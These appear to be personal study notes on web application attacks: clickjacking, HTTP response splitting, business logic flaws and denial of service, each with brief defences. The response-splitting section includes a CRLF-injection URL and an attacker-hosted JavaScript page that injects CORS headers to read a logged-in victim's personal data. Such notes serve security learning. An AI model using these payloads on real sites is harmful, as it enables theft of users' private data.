 1. Clickjacking
2. HTTP Response Splitting
3. Business Logic Flow
4. Denial of Services
***
1. Clickjacking
- Clickjacking is a technique, also known as User Interface (UI) redressing
- Technically, an attacker that wants to perform this attack crafts a malicious HTML page. This page can contain two overlapping layers, one malicious and the other the actual target of the click.
- Clickjacking can be leveraged to perform a wide number of attacks such as:
	- forcing users to click on ads
	- performing any action that only requires clicking on a website
- clickjacking defenses
	- The Old School : Tries to avoid clickjacking by using JavaScript code
	- The Current School : HTTP response headers, Content Security Policy, Browser Frame-Breaker
		- It can have two different values: 
			- SAME ORIGIN : The document may be shown inside an iframe only if the container page (under the control of the attacker) and the contained document share the same origin.
			- DENY : The document may not be shown inside an iframe, regardless of the container’s origin.
			- X-Frame-Options
***
2. HTTP Response Splitting
- This type of Header Injection attack occurs when an attacker `sends` arbitrary data to the server and this data is `returned` as part of the HTTP response.
- Goal : Split the Response into two parts by means of special characters CRLF:
	-  CR (Carriage Return) – `[ \r ]`
	-  LF (Line Feed) – `[ \n ]`
- A `Header injection` attack would add new Headers to the current HTTP Response block. 
- Example :
	- A web application puts User Input into one of the Response Headers. This header is Set-Cookie.
	- xss
	- `GET http://target.site/trackUrl.php?url=http://elsfoo.com%0d%0aHTTP/1. 1%20200%20OK%0d%0aContent%2dType:%20text/html%0d%0aContent%2dLengt h:%2039%0d%0a%0d%0a`
	![[Pasted image 20220403081626.png]]
	![[Pasted image 20220403081855.png]]

- Bypass Same Origin Policy
- Example
	- Suppose a webpage named getPersonalData.php returns the personal data of the currently logged-in user and that the page is vulnerable to HTTP response splitting (in the trackingUrl parameter).
	 ![[Pasted image 20220403173811.png]]
	- Attacker build a malicious page with this URL http://attacker.site/evil.php.
	- The following is the code of evil.php:
```
	<script>
function loadXMLDoc()
 {
 var xmlhttp;
 xmlhttp=new XMLHttpRequest();
 xmlhttp.withCredentials = true;
 xmlhttp.onreadystatechange=function()
 {
 if (xmlhttp.readyState==4 && xmlhttp.status==200)
 {
 document.getElementById("responseDiv").innerHTML=xmlhttp.responseText;
 }
 }
 
xmlhttp.open("GET","http://target.site/getPersonalData.php?trackingUrl=test%0d%0aAcces
s-Control-Allow-Origin:%20http://attacker.site%0d%0aAccess-Control-AllowCredentials:%20true",true);
 xmlhttp.send();
 }</script>
```
![[Pasted image 20220403174842.png]]
- Best Defensive
	- Filter the input data
	- PHP
	- `header(“Location: elsfoo.com”);`
	- PHP v5.1.4 both critical characters CR and LF have been denied within the function header
***
3. Business Logic Flow
- The best way to detect them is by analyzing the transaction chart of all the processes that the web application provides.
![[Pasted image 20220403082231.png]]
![[Pasted image 20220403082249.png]]

- Best Defensive
	- Analyze all processes
	- process should be compliant to business rules

***
4. Denial of Services
- Occurs when a system, designed to provide a certain service, stops providing that service to users, after receiving multiple malicious requests.
- This generally occurs because some server resource is overloaded (RAM, CPU, HD, bandwidth, etc.).
- DDoS attacks are the most difficult to prevent because their origin cannot be isolated

- Type 
	- DoS due to a huge number of REQUESTS
	- DoS due to GREEDY PAGES
- Best Defensive
	- Detecting and blocking malicious requests
	- IP blacklisting
***